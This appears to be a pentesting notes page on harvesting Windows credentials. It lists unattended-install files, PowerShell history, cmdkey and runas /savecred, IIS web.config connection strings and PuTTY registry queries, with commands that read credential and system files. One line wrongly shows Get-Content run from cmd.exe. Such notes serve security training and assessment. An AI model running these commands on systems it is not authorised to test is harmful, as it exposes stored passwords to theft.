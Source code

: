 # Password harvesting

### Unattended installations

The following locations may contain administrative credentials that are used in unattended installations:

* `C:\Unattend.xml`
* `C:\Windows\Panther\Unattend.xml`
* `C:\Windows\Panther\Unattend\Unattend.xml`
* `C:\Windows\system32\sysprep.inf`
* `C:\Windows\system32\sysprep\sysprep.xml`

### Powershell History

The Powershell history can be viewed using Powershell at the file path: `$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

To view the file from a command prompt (`cmd.exe`), replace the `$Env:userprofile` at the start of the previously shown path to `%userprofile%`.

_**Powershell**_

```powershell
PS> type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
PS> Get-Content $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

_**Command prompt (cmd.exe)**_

```powershell
cmd> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cmd> Get-Content %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

> The `type` command is an alias for the `Get-Content` cmdlet.

_**Purpose of viewing the Powershell history**_:

There may be instances where there might be plaintext passwords provided directly to commands for user creation, login, etc. These passwords can be retrieved by viewingh the history.

```powershell
# Eg. Adding a new user to a resource, while providing plaintext password
cmdkey /add:<target_resource> /user:<username> /pass:<plaintext_password>
```

### Saved credentials

View the stored credentials

The example below shows that the credentials for a user `rand_username` is stored:

```powershell
C:\> cmdkey /list

Currently stored credentials:
  
    Target: Domain:interactive=rand_username       
    Type: Domain Password                           
    User: rand_username

...
```

We can used the stored credentials to run command as the user:

```powershell
C:\> runas /savecred /user:rand_username <command_to_run>
```

### Internet Information Services (IIS)

The internet information services is a default web server on Windows installations. The configuration file is named `web.config`, which can store passwords for authentication for various services. Depending on the installed version of _**IIS**_, the `web.config` file can be found in the following locations:

* `C:\inetpub\wwwroot\web.config`
* `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`

The following command allows us to find database connection strings from the `web.config` file:

```powershell
C:\> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

This command consists of two parts separated by the pipe (`|`) operator:

1. `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
   * View the contents of the `web.config` file
2. `findstr connectionString`
   * Utilizes the `findstr` command (similar to the `grep` command in Unix based systems) to find filter out the portion of the contents regarding the database connection strings



### Retrieve credentials from software

#### 1. Putty

The following command searches for stored proxy credentials under Putty:

```powershell
C:\> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

The `reg query` command is used to retrieve or query information from the Windows registry. The `/f` flag is used to filter strings, while the `/s` flag is used to specify the command to search recursively.

> Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password.
